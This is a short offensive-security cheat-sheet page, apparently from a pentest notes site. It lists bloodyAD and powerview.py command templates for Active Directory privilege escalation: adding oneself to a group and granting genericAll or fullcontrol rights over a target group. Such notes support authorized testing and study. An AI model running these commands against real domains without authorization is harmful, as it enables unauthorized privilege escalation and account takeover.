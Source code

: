 ```yaml
---
title: "AddSelf"
date: 2024-8-2
tags: ["addself", "active directory", "ad", "domain controller", "Windows", "powerview", "bloodAD", "privesc"]
---
```


### Privesc #1: Add self to group (From Linux)

{{< tab set1 tab1 active >}}bloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}powerview.py{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add self to group

```console
# With password
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add groupMember <GROUP> '<USER>'
```

```console
# With Kerberos
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -k --host <DC> add groupMember <GROUP> '<USER>'
```

#### 2. Add genericAll over target group

```console
# With password
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console
# With Kerberos
python3 bloodyAD.py -d <DOMAIN> -u '<USER>' -k --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Connect

```console
sudo ntpdate -s <DC> && powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

#### 2. Add self to group

```console
Add-DomainGroupMember -Identity <GROUP> -Members '<USER>'
```

```console
# Check
Get-DomainGroupMember -Identity <GROUP>
```

#### 4. Add fullcontrol over target group

```console
# Exit and login again to apply changes
Add-DomainObjectAcl -TargetIdentity <TARGET_GROUP> -PrincipalIdentity '<USER>' -Rights fullcontrol
```

```console
# Check
Get-DomainObjectAcl -Identity <TARGET_USER> -Where 'SecurityIdentifier contains <USER>'
```

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}
